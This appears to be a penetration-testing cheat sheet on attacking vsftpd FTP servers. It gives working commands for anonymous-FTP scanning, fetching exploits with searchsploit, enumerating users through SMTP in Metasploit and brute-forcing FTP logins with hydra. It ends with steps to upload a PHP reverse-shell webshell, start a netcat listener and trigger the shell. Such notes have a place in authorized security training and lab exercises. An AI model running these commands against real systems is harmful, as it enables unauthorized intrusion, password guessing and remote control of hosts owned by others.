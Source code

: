 
## Targeting vsftpd (practical notes)

* Check anonymous FTP first:

  ```bash
  nmap --script ftp-anon -p21 <target-ip>
  ```
* If anonymous or credentials work, browse directories and look for upload points or webshell opportunities.
* Example Searchsploit flow:

  ```bash
  searchsploit vsftpd
  searchsploit -m 49757     # copy exploit locally
  ```

  Note: Some PoCs require specific conditions (e.g., a particular auxiliary port open — e.g., TCP 6200). If the required port/service is not present the exploit will fail — **not every exploit works on every host**.

### If anonymous or creds fail, use SMTP to enumerate users (useful on Linux)

* Many SMTP servers give hints about valid local user accounts (VRFY/EXPN or banner behavior).
* Metasploit auxiliary:

  ```text
  # in msfconsole
  use auxiliary/scanner/smtp/smtp_enum
  set RHOSTS <target-ip>
  set UNIX_ONLY true
  run
  ```
* Use discovered usernames as inputs to brute-force attacks (only where allowed):

  ```bash
  hydra -l <username> -P /path/to/passwords.txt ftp://<target-ip>
  ```

---

## Web upload & webshells (LAMP vs IIS differences)

* **Windows/IIS** → use `.asp`/`.aspx` webshells.
* **Linux/Apache (LAMP)** → use `.php` webshells.
* Uploading a webshell (example PHP Reverse Shell):

  1. Generate or edit a PHP reverse shell to set your `LHOST` and `LPORT`.
  2. Upload via FTP or any writable web directory.
  3. Start a listener:

     ```bash
     nc -nvlp 1234
     ```
  4. Trigger the webshell in the browser: `http://<target-ip>/path/payload.php` → get a shell.
